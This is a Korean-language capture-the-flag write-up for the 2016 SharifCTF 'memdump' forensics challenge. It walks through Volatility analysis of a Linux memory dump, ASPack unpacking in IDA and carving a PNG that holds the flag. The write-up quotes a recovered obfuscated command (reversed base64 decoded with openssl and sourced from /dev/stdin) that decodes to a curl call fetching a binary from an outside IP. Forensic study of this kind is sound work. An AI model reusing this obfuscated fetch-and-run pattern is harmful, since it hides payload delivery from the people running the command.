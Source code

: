 =====================================================================
[2016_sharif] [Forensic] memdump
=====================================================================

메모리 덤프 파일 정보 확인
=====================================================================

메모리 덤프 s파일의 정보를 확인합니다.

리눅스 메모리 덤프의 경우 volatility의 imageinfo로 확인을 하게 되면 시간도 오래걸리고, 만약 profile에 해당 이미자가 없을 수 있기 때문에 다음 명령으로 확인을 합니다.

.. code-block:: console

    $ strings memdump2 | egrep '^Linux.*[0-9.]{3,}.*SMP'
 
    Linux version 3.16.0-30-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 (Ubuntu 3.16.0-30.40~14.04.1-generic 3.16.7-ckt3)

    Linux version 3.16.0-30-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 (Ubuntu 3.16.0-30.40~14.04.1-generic 3.16.7-ckt3)

|

프로세스 정보 확인
=====================================================================

위에서 나온 프로파일이 윈도우이므로, pslist로 프로세스 정보에 대해 확인합니다.

.. code-block:: console

    $ python vol.py linux_psaux --profile=LinuxUbuntu1404x64 -f memdump2
    
    Volatility Foundation Volatility Framework 2.5
    Pid    Uid    Gid    Arguments
    1      0      0      /sbin/init
    2      0      0      [kthreadd]
    3      0      0      [ksoftirqd/0]
    5      0      0      [kworker/0:0H]
    6      0      0      [kworker/u2:0]
    7      0      0      [rcu_sched]
    8      0      0      [rcuos/0]
    9      0      0      [rcu_bh]
    10     0      0      [rcuob/0]
    11     0      0      [migration/0]
    12     0      0      [watchdog/0]
    13     0      0      [khelper]
    14     0      0      [kdevtmpfs]
    15     0      0      [netns]
    16     0      0      [khungtaskd]
    17     0      0      [writeback]
    18     0      0      [ksmd]
    19     0      0      [crypto]
    20     0      0      [kintegrityd]
    21     0      0      [bioset]
    22     0      0      [kblockd]
    23     0      0      [ata_sff]
    24     0      0      [khubd]
    25     0      0      [md]
    26     0      0      [devfreq_wq]
    27     0      0      [kworker/u2:1]
    28     0      0      [kworker/0:1]
    29     0      0      [kswapd0]
    30     0      0      [fsnotify_mark]
    31     0      0      [ecryptfs-kthrea]
    43     0      0      [kthrotld]
    44     0      0      [acpi_thermal_pm]
    45     0      0      [scsi_eh_0]
    46     0      0      [scsi_tmf_0]
    47     0      0      [scsi_eh_1]
    48     0      0      [scsi_tmf_1]
    50     0      0      [ipv6_addrconf]
    70     0      0      [deferwq]
    71     0      0      [charger_manager]
    117    0      0      [kpsmoused]
    118    0      0      [kworker/0:2]
    119    0      0      [scsi_eh_2]
    120    0      0      [scsi_tmf_2]
    121    0      0      [kworker/0:1H]
    131    0      0      [jbd2/sda1-8]
    132    0      0      [ext4-rsv-conver]
    264    0      0      upstart-udev-bridge --daemon
    270    0      0      /lib/systemd/systemd-udevd --daemon
    391    0      0      upstart-file-bridge --daemon
    394    102    106    dbus-daemon --system --fork
    396    101    104    rsyslogd
    422    0      0      /lib/systemd/systemd-logind
    462    0      0      upstart-socket-bridge --daemon
    540    0      0      dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
    680    0      0      /sbin/getty -8 38400 tty4
    683    0      0      /sbin/getty -8 38400 tty5
    690    0      0      /sbin/getty -8 38400 tty2
    691    0      0      /sbin/getty -8 38400 tty3
    693    0      0      /sbin/getty -8 38400 tty6
    710    0      0      acpid -c /etc/acpi/events -s /var/run/acpid.socket
    725    0      0      /usr/sbin/sshd -D
    773    0      0      atd
    774    0      0      cron
    900    0      0      [kauditd]
    1047   0      0      /sbin/getty -8 38400 tty1
    1093   0      0      sshd: user [priv]
    1135   1000   1000   sshd: user@pts/0
    1136   1000   1000   -bash  <-- suspicious process
    1166   0      0      [kworker/u2:2]

|

bash shell 확인
=====================================================================

실행한 bash 정보를 확인합니다. 뭔가 냄새가 나는 것들이 존재합니다.

.. code-block:: console

    $ python vol.py linux_bash --profile=LinuxUbuntu1404x64 -f memdump2

    Volatility Foundation Volatility Framework 2.5
    Pid      Name                 Command Time                   Command
    -------- -------------------- ------------------------------ -------
    1136 bash                 2016-02-03 11:31:37 UTC+0000   netstat -natp
    1136 bash                 2016-02-03 11:32:21 UTC+0000   history
    1136 bash                 2016-02-03 11:32:28 UTC+0000   startx
    1136 bash                 2016-02-03 11:32:35 UTC+0000   history
    1136 bash                 2016-02-03 11:32:55 UTC+0000   passwd
    1136 bash                 2016-02-03 11:33:31 UTC+0000   ifconfig
    1136 bash                 2016-02-03 11:33:37 UTC+0000   curl ctf.sharif.edu
    1136 bash                 2016-02-03 11:33:43 UTC+0000   curl ctf.sharif.edu | grep till
    1136 bash                 2016-02-03 11:33:49 UTC+0000   curl -s paste.debian.net/plain/343376 | cut -d "_not"
    1136 bash                 2016-02-03 11:34:11 UTC+0000   curl -s paste.debian.net/plain/343376 | tr -d "_not"
    1136 bash                 2016-02-03 11:34:51 UTC+0000   curl -s paste.debian.net/plain/343376 | base64 | rev
    1136 bash                 2016-02-03 11:34:58 UTC+0000   top
    1136 bash                 2016-02-03 11:35:04 UTC+0000   history
    1136 bash                 2016-02-03 11:35:09 UTC+0000   curl -s ctf.sharif.edu | grep till
    1136 bash                 2016-02-03 11:35:15 UTC+0000   curl -s ctf.sharif.edu | grep till | sed -e 's/20:00/30:00/g'
    1136 bash                 2016-02-03 11:35:22 UTC+0000   
    1136 bash                 2016-02-03 11:35:29 UTC+0000   echo blahblah
    1136 bash                 2016-02-03 11:35:35 UTC+0000   curl -I ctf.sharif.edu
    1136 bash                 2016-02-03 11:35:42 UTC+0000   curl -I ctf.sharif.edu | grep ETag | cut -d "\"" -f2
    1136 bash                 2016-02-03 11:35:48 UTC+0000   curl -s -I ctf.sharif.edu | grep ETag | cut -d "\"" -f2
    1136 bash                 2016-02-03 11:35:53 UTC+0000   curl ctftime.org
    1136 bash                 2016-02-03 11:36:05 UTC+0000   curl https://ctftime.org
    1136 bash                 2016-02-03 11:36:11 UTC+0000   curl https://ctftime.org/upcoming | grep -i SharifCTF
    1136 bash                 2016-02-03 11:36:17 UTC+0000   curl -s "https://ctftime.org/upcoming " | grep -i SharifCTF
    1136 bash                 2016-02-03 11:36:23 UTC+0000   curl -s "https://ctftime.org/upcoming " | grep -i flag
    1136 bash                 2016-02-03 11:36:35 UTC+0000   echo "woow :) :)"
    1136 bash                 2016-02-03 11:36:41 UTC+0000   watch curl -s "https://ctftime.org/Upcoming | grep -i flag"
    1136 bash                 2016-02-03 11:37:00 UTC+0000   history
    1136 bash                 2016-02-03 11:37:05 UTC+0000   ping google.com
    1136 bash                 2016-02-03 11:37:13 UTC+0000   ps aux
    1136 bash                 2016-02-03 11:37:19 UTC+0000   nslookup ctf.sharif.edu
    1136 bash                 2016-02-03 11:37:24 UTC+0000   ls -ah
    1136 bash                 2016-02-03 11:37:29 UTC+0000   ls -la
    1136 bash                 2016-02-03 11:37:33 UTC+0000   uptime
    1136 bash                 2016-02-03 11:37:40 UTC+0000   clear

실행을 통해 확인 작업에 들어갑니다.

.. code-block:: console

    $ curl -s paste.debian.net/plain/343376

    hi all, Where is flag? this is not flag, be sure!
    +++++++++++++++++++++++++++++++++++++++++++++++++
    +        su-CTF{this_is_not_flag_g0_away}       +
    +++++++++++++++++++++++++++++++++++++++++++++++++

어 이게 정답인가? 아니였습니다. 

.. code-block:: console

    $ curl -s paste.debian.net/plain/343376 | tr -d "_not"
    
    hi all, Where is flag? his is  flag, be sure!
    +++++++++++++++++++++++++++++++++++++++++++++++++
    +        su-CTF{hisisflagg0away}       +
    +++++++++++++++++++++++++++++++++++++++++++++++++

어 이게 정답인가? 아니였습니다. 이리로 오면 안되는 거 였습니다. 잘못된 접근 ㅎㅎ

|

덤프 파일 분석
=====================================================================

bash pid로 메모리 덤프를 떠서 확인을 해봐야겠습니다.

.. code-block:: console

    $ python vol.py linux_dump_map -p 1136 --profile=LinuxUbuntu1404x64 -f memdump2 -D output

    Volatility Foundation Volatility Framework 2.5
    Task       VM Start           VM End                         Length Path
    ---------- ------------------ ------------------ ------------------ ----
    1136 0x0000000000400000 0x00000000004ef000            0xef000 output/task.1136.0x400000.vma
    1136 0x00000000006ef000 0x00000000006f0000             0x1000 output/task.1136.0x6ef000.vma
    1136 0x00000000006f0000 0x00000000006f9000             0x9000 output/task.1136.0x6f0000.vma
    1136 0x00000000006f9000 0x00000000006ff000             0x6000 output/task.1136.0x6f9000.vma
    1136 0x000000000141c000 0x00000000015a8000           0x18c000 output/task.1136.0x141c000.vma
    1136 0x00007f6a8d701000 0x00007f6a8d70c000             0xb000 output/task.1136.0x7f6a8d701000.vma
    1136 0x00007f6a8d70c000 0x00007f6a8d90b000           0x1ff000 output/task.1136.0x7f6a8d70c000.vma
    1136 0x00007f6a8d90b000 0x00007f6a8d90c000             0x1000 output/task.1136.0x7f6a8d90b000.vma
    1136 0x00007f6a8d90c000 0x00007f6a8d90d000             0x1000 output/task.1136.0x7f6a8d90c000.vma
    1136 0x00007f6a8d90d000 0x00007f6a8d918000             0xb000 output/task.1136.0x7f6a8d90d000.vma
    1136 0x00007f6a8d918000 0x00007f6a8db17000           0x1ff000 output/task.1136.0x7f6a8d918000.vma
    1136 0x00007f6a8db17000 0x00007f6a8db18000             0x1000 output/task.1136.0x7f6a8db17000.vma
    1136 0x00007f6a8db18000 0x00007f6a8db19000             0x1000 output/task.1136.0x7f6a8db18000.vma
    1136 0x00007f6a8db19000 0x00007f6a8db30000            0x17000 output/task.1136.0x7f6a8db19000.vma
    1136 0x00007f6a8db30000 0x00007f6a8dd2f000           0x1ff000 output/task.1136.0x7f6a8db30000.vma
    1136 0x00007f6a8dd2f000 0x00007f6a8dd30000             0x1000 output/task.1136.0x7f6a8dd2f000.vma
    1136 0x00007f6a8dd30000 0x00007f6a8dd31000             0x1000 output/task.1136.0x7f6a8dd30000.vma
    1136 0x00007f6a8dd31000 0x00007f6a8dd33000             0x2000 output/task.1136.0x7f6a8dd31000.vma
    1136 0x00007f6a8dd33000 0x00007f6a8dd3c000             0x9000 output/task.1136.0x7f6a8dd33000.vma
    1136 0x00007f6a8dd3c000 0x00007f6a8df3b000           0x1ff000 output/task.1136.0x7f6a8dd3c000.vma
    1136 0x00007f6a8df3b000 0x00007f6a8df3c000             0x1000 output/task.1136.0x7f6a8df3b000.vma
    1136 0x00007f6a8df3c000 0x00007f6a8df3d000             0x1000 output/task.1136.0x7f6a8df3c000.vma
    1136 0x00007f6a8df3d000 0x00007f6a8e206000           0x2c9000 output/task.1136.0x7f6a8df3d000.vma
    1136 0x00007f6a8e206000 0x00007f6a8e3c1000           0x1bb000 output/task.1136.0x7f6a8e206000.vma
    1136 0x00007f6a8e3c1000 0x00007f6a8e5c1000           0x200000 output/task.1136.0x7f6a8e3c1000.vma
    1136 0x00007f6a8e5c1000 0x00007f6a8e5c5000             0x4000 output/task.1136.0x7f6a8e5c1000.vma
    1136 0x00007f6a8e5c5000 0x00007f6a8e5c7000             0x2000 output/task.1136.0x7f6a8e5c5000.vma
    1136 0x00007f6a8e5c7000 0x00007f6a8e5cc000             0x5000 output/task.1136.0x7f6a8e5c7000.vma
    1136 0x00007f6a8e5cc000 0x00007f6a8e5cf000             0x3000 output/task.1136.0x7f6a8e5cc000.vma
    1136 0x00007f6a8e5cf000 0x00007f6a8e7ce000           0x1ff000 output/task.1136.0x7f6a8e5cf000.vma
    1136 0x00007f6a8e7ce000 0x00007f6a8e7cf000             0x1000 output/task.1136.0x7f6a8e7ce000.vma
    1136 0x00007f6a8e7cf000 0x00007f6a8e7d0000             0x1000 output/task.1136.0x7f6a8e7cf000.vma
    1136 0x00007f6a8e7d0000 0x00007f6a8e7f5000            0x25000 output/task.1136.0x7f6a8e7d0000.vma
    1136 0x00007f6a8e7f5000 0x00007f6a8e9f4000           0x1ff000 output/task.1136.0x7f6a8e7f5000.vma
    1136 0x00007f6a8e9f4000 0x00007f6a8e9f8000             0x4000 output/task.1136.0x7f6a8e9f4000.vma
    1136 0x00007f6a8e9f8000 0x00007f6a8e9f9000             0x1000 output/task.1136.0x7f6a8e9f8000.vma
    1136 0x00007f6a8e9f9000 0x00007f6a8ea1c000            0x23000 output/task.1136.0x7f6a8e9f9000.vma
    1136 0x00007f6a8ec0a000 0x00007f6a8ec11000             0x7000 output/task.1136.0x7f6a8ec0a000.vma
    1136 0x00007f6a8ec11000 0x00007f6a8ec14000             0x3000 output/task.1136.0x7f6a8ec11000.vma
    1136 0x00007f6a8ec19000 0x00007f6a8ec1b000             0x2000 output/task.1136.0x7f6a8ec19000.vma
    1136 0x00007f6a8ec1b000 0x00007f6a8ec1c000             0x1000 output/task.1136.0x7f6a8ec1b000.vma
    1136 0x00007f6a8ec1c000 0x00007f6a8ec1d000             0x1000 output/task.1136.0x7f6a8ec1c000.vma
    1136 0x00007f6a8ec1d000 0x00007f6a8ec1e000             0x1000 output/task.1136.0x7f6a8ec1d000.vma
    1136 0x00007fff373e1000 0x00007fff37403000            0x22000 output/task.1136.0x7fff373e1000.vma
    1136 0x00007fff37407000 0x00007fff37409000             0x2000 output/task.1136.0x7fff37407000.vma
    1136 0x00007fff37409000 0x00007fff3740b000             0x2000 output/task.1136.0x7fff37409000.vma


grep 명령을 통해 string을 가진 파일을 검색해보았는데 다행히(?) 1개 파일이 매칭 되었습니다.

.. code-block:: console

    $ grep -i 'netstat -natp' output/*
    
    Binary file output/task.1136.0x141c000.vma matches

strings 로 해당 파일을 검색해보니 너무 너무 많이 출력됩니다. ㅠㅠ
솔직히 여기서부터 잘못된 접근인가라는 의심이 시작되었습니다. 다행히 more에서 8페이지 쯤 에 수상한 놈이 보였습니다.

.. code-block:: console

    $ strings output/task.1136.0x141c000.vma |more
     
    e.org/Upcoming | grep -i flag"
    jL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    g' -e 's/|/ /g' | uniq)
    p##*/}
                     printf '%s\n' ${tmp%.mod}
                 }
             done
             }
            ))
    t|m[eo]d|M[EO]D|s[3t]m|S[3T]M|it|IT|xm|XM|iso|ISO)|+([0-9]).@(vdr|VDR))?(.part)'
    ull ))
        "s|.*[[:space:]]\(link/\)\{0,1\}ether[[:space:]]\{1,\}\($re\)[[:space:]]*$|\2|p"
            ))


/tmp/.KvCf56 이라는 파일에 무언가 저장을 하는구나 싶어 grep으로 해당 부분을 잡아보았습니다.


.. code-block:: console

    $ strings output/task.1136.0x141c000.vma |grep '/tmp/.KvCf56'
    
    jL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    Lqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    qt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    qt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'
    Lqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
    echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56
    t0TwF3b | rev | openssl enc -a -d | rev | . /dev/stdin > /tmp/.KvCf56'

바로 해당 명령 실행

.. code-block:: console

    $ echo =owY1JHbg0ycggGd0BnOv8SN04SM4MjL1MjL1IzLqt0TwF3b | rev | openssl enc -a -d | rev 
    
    curl -s http://54.183.53.52/jKOpqo

저 url에서 PE파일 하나를 떨구네요. 

실행을 시켜보면 그냥 묵비권만 행사함을 알 수 있습니다. 근데 뭔가 알지도 모른다고 하네요.

.. image:: ../_images/forensic02.png
    :align: center


IDA를 통해 Segment를 확인해보면 aspack 으로 패킹 되어 있음을 확인할 수 있습니다.


.. image:: ../_images/forensic03.png
    :align: center

packing이 되어 있기 때문에 아무리 IDA로 정적 분석을 해도 별다른 스트링이 나오지 않음을 알수 있습니다. 왜냐하면 실행 중에 unpack이 되기 때문에 unpack 이후 OEP 에 들어 갓을 때 내용을 확인해야 정상적으로 뜹니다.

그럼 먼저 aspack을 unpack을 해보죠. 프로그램 시작 지점 (start) 부터 시작을 합니다. 근처에 pusha 가 있을겁니다. 언팩을 하기 전의 레지스터 값을 저장하고 언팩이 끝난 다음에 popa를 통해 복구 하기 위함입니다.

.. image:: ../_images/forensic04.png
    :align: center


따라서 우리는 어셈블리를 쭉 내리면서 popa 만 찾으면 되고, popa 에다가 bp를 걸고 실행 합니다.

.. image:: ../_images/forensic05.png
    :align: center

이후 몇번 움직이면 EIP가 0x00401040 쪽으로 가게 되는데 이 부분부터가 OEP 입니다.

이때부터 strings나 기타 등등을 살펴 보면 다음과 같이 잘 보임을 알 수 있습니다.

.. image:: ../_images/forensic06.png
    :align: center

.. image:: ../_images/forensic07.png
    :align: center

여기서 주목해야 할 세그먼트는 jKOpqo.exe 세그먼트 입니다. 이름이 같은 세그먼트가 2개가 있는데 첫 번째 내용에 MZ 로 시작하여 This program cannot be 어쩌구 있는걸 보니 바이너리 형태로 프로그램이 들어가 있고 

두번째 세그먼트를 보면 FLAG ... IMG ... PNG 어쩌구 되어 있습니다. 음... 두번째 놈을 덤프 떠봅니다 'ㅅ' 세그먼트 헤더에 시작위치와 크기가 정해져 있으니 해당 바이트수 만큼 땝니다.

.. image:: ../_images/forensic08.png
    :align: center

보면 PNG 해더가 시작하기 때문에 PNG 해더 전을 다 지웁니다.

.. image:: ../_images/forensic09.png
    :align: center

뒷 부분도 마찬가지로 PNG 의 끝을 가리키는 IEND + 4 바이트 까지 남기고 다 지웁니다.

.. image:: ../_images/forensic10.png
    :align: center

요놈을

.. image:: ../_images/forensic11.png
    :align: center

그러면 flag가 포함된 이미지가 출력됩니다.
